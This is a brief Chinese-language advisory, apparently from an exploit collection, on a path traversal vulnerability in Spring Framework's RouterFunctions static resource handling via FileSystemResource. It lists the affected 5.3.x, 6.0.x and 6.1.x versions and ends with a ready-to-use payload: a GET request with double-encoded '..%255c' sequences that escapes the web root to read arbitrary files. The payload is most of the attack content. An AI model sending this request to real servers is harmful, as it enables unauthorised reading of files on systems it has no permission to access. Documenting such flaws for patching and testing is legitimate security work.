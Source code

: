 **漏洞描述：**

当使用 RouterFunctions 来处理静态资源且资源处理通过FileSystemResource 进行配置时，攻击者可以通过构造恶意 HTTP 请求，利用路径遍历漏洞获取相关受影响版本文件系统中的任意文件。 

**影响版本：**

Spring Framework

- 5.3.0 - 5.3.39
- 6.0.0 - 6.0.23
- 6.1.0 - 6.1.12
- Older, unsupported versions are also affected

**Payload：**

```
GET /app/portal/..%255c/..%255c/..%255c/Users/Public/Downloads/test.txt
```
---
